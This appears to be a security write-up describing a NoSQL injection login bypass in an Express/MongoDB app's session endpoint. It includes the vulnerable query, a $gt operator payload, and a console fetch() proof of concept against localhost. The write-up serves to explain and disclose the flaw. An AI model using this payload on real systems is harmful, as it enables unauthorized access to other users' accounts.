 1. **NoSql injection attack**

    Normally people talk about SQL Injection. However, although we no longer deal with a query language in the form of a string, a [NoSQL injetion attack](https://www.owasp.org/index.php/Testing_for_NoSQL_injection) is also possible with their own operators and syntax. 

    In this application, when authenticating user into the system, we have a end point when doing a POST request to `/users/session`. And in this function (/routes/users.js, line 59, called by public/javascripts/global.js line 177), we get 
    ```javascript
    collection.findOne({ username: req.body.username, password: req.body.password })
    ```

    As we note in the request end point `/users/session`, there's no validation for username and password type to be string and also no proper sanitization on both the client and server side. Therefore, as we assume that the username field is coming from a deserialized JSON object, manipulation of the above query is easy. When the JSON document is deserialized, those fields may contain malicious input like below.
    ```javascript
    {
        "username": {"$gt": ""},
        "password": {"$gt": ""}
    }
    ```

    In MongoDB, the field $gt has a special meaning, which is used as the greater than comparator. As such, the username and the password from the database will be compared to the empty string "" and as a result return a true statement. Then the query would return a user in the database and the end-point would login that user, and hence result a login bypass.

    To exploit such vulnerability in our application, we could have the following code in the console. Then when refreshing the page, we are in the session of a user in the database.
    ```javascript 
    await fetch("http://localhost:3000/users/session", 
      {"credentials":"include",
       "headers":
        {"accept":"application/json, text/javascript, */*; q=0.01",
         "accept-language":"en,zh-CN;q=0.9,zh;q=0.8",
         "cache-control":"no-cache",
         "content-type":"application/x-www-form-urlencoded; charset=UTF-8",
         "pragma":"no-cache",
         "sec-fetch-mode":"cors",
         "sec-fetch-site":"same-origin",
         "x-requested-with":"XMLHttpRequest"},
       "referrer":"http://localhost:3000/",
       "referrerPolicy":"no-referrer-when-downgrade",
       "body":"username[$gt]=&password[$gt]=",
       "method":"POST",
       "mode":"cors"});
    ```

    The critical part is the body sent, which is `username[$gt]=&password[$gt]=`. Here in the application, when serializing and deserilizing json, **url-encoded key-value pairs** are used in communication. The string `username[$gt]=` is a special syntax used by the qs module (default in ExpressJS and the body-parser middleware). This syntax is the equivalent of making an JavaScript object with a single parameter called $gt mapped to no value. In essence, the request above will result into a JavaScript object that looks like ` { username: { '$gt': '' }, password: { '$gt': '' } }`, which is exactly the same one described above. Then the request would result a login bypass. 
